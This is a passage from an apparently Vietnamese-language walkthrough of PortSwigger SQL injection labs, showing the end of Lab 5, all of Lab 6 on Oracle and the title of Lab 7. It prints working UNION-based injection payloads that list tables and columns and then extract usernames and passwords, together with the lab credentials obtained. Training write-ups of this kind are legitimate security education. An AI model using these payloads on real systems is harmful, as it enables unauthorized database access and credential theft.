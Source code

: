 => tìm được 2 cột là username_aamfgq và password_lezury

=> final payload 

      'union select username_aamfgq,password_lezury  from users_whkkxc --

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/137e3435-29cc-41db-aac5-d569acf3def4)

=> username = administrator và password = udoct5pqg8rifxz14fbh



=>> solve lab 5

# Lab 6 : SQL injection attack, listing the database contents on Oracle

>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

> To solve the lab, log in as the administrator user.

+ step 1: Recon

  - như bài trên khi test cột thì ta có số cột bằng 2
 
  - với bài này ta xác định được database này là orale
 
+ step 2 : Exploit

payload: 

      'union select null, table_name from all_tables --
            
![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/219c0904-727c-48d1-b02b-370d010f293a)

=> tables là USERS_ROYLCF

      'union select null, column_name from all_tab_columns where table_name = 'USERS_ROYLCF' --
      
![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/2cc8cdb1-e5e6-41aa-8bb4-15aecf11da46)

=> column là USERNAME_HDIDAS và PASSWORD_RQTIMB

      'union select USERNAME_HDIDAS, PASSWORD_RQTIMB from USERS_ROYLCF --
      
![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/c99b76a6-24af-41ac-9328-40f291dcf408)

=> username = administator và password = rz22yzn292lb4uq4ex5e


=>> solve lab 6


# Lab 7: SQL injection UNION attack, determining the number of columns returned by the query
